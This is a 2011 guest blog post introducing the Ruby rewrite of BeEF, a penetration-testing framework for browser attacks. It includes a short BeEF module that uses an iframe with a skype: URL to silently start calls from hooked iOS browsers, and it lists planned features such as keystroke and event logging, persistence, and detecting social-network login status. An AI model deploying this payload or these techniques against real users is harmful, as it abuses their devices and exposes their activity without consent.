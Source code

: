 ```yaml
---
title: Having Fun With BeEF, The Browser Exploitation Framework
author: adrian-pastor
guest: chirstian-frichot
date: Tue, 22 Feb 2011 11:40:26 GMT
template: this/views/post.jade
---
```


> We haven't featured any guest bloggers in a while, but we're glad to be featuring [Chirstian Frichot](http://un-excogitate.org/) this month! Christian is a security professional based in Perth, Western Australia. He's currently working in the finance industry as part of a tight-knit internal team of security consultants doing their best to protect their business and customers from technical threats such as malware or insecure web applications.

> After having met [Wade Alcorn](http://www.bindshell.net/users/Wade) (the initial author and project lead of BeEF), Christian mentioned his interest in helping out on the project where he could, which eventually led to Wade accepting his offer. The discussion was held over a couple of bottles of wine, so perhaps Wade's regretting the decision now!

> Christian's role within the BeEF project, if it were to be defined, is odd-jobs-go-to-boy, command-module implementer, Ext-JS-fighter and twitter maintainer. When Christian is not working on BeEF, he's doing his best to represent the Perth OWASP Chapter, or laying down crunchy beats on the drum-kit.

> What follows are Chritian's words on the BeEF project.

Sorry vegetarians, but BeEF is back. That's right, the Browser Exploitation Framework is back, and it has now been rewritten from the ground up in Ruby. For those unfortunate people who haven't had a chance to explore the older, PHP version of BeEF you're only missing out on one of the greatest, most extensible XSS-payload management and exploitation frameworks out there, and the Ruby re-write is no different.

The Browser Exploitation Framework (BeEF) is a powerful, professional security tool. BeEF is pioneering techniques that provide the experienced penetration tester with practical client side attack vectors. Unlike other security frameworks, BeEF focuses on leveraging browser vulnerabilities to assess the security posture of a target.

One of the newer modules implemented in BeEF utilises the insecure handling of URL schemes in Apple's iOS to trick Skype into starting an outbound call. This vulnerability was first written about by [Nitesh Dhanjani](http://www.dhanjani.com/blog/2010/11/insecure-handling-of-url-schemes-in-apples-ios.html) and highlights that with the growing popularity of these devices these sorts of issues may lead to losses of information or other negative impacting events. The module itself is as simple as:

```javascript
beef.execute(function() {
	document.body.innerHTML = "<iframe src=skype:<%= @tel_num %>?call></iframe>";
	beef.net.sendback("<%= @command_url %>", <%= @command_id %>, "result=IFrame Created!");
});
```

which, once added to a particular hooked browsers command queue will simply execute upon next poll, and if they automatically authenticate to the Skype application, will initiate a call. Due to iOS' multi-tasking the Skype app does pop up to the top, so the end user is aware that the activity is occurring, but they're not prompted to "confirm" the action. You can see this module demonstrated bellow:

<iframe width="100%" height="420" src="http://www.youtube.com/embed/5SVu6VdLWgs" frameborder="0" allowfullscreen></iframe>

The current release is 0.4.2.1-alpha, but by release 0.5 (the Sirloin Release) we're expecting to have at least all of the PHP BeEF functionality provided plus much more, including:

1. jQuery included as part of the hooking process
2. Metasploit integration
3. Evercookie's for persistence even after a hooked browser has been closed
4. Full event logging, not just keystroke logging, to include window activation/deactivation, mouse clicks, etc
5. Arbitrary HTTP requester
6. Proxying
7. Persistence modules (subtle popups or 100%x100% iframes)
8. Detecting of social networking authentication status (as per [this](http://grepular.com/Abusing_HTTP_Status_Codes_to_Expose_Private_Information))

You can find out more about beef over at [http://beef.googlecode.com](http://beef.googlecode.com) or
by following the [@beefproject](http://twitter.com/beefproject).

_BeEF - Get it into ya!_
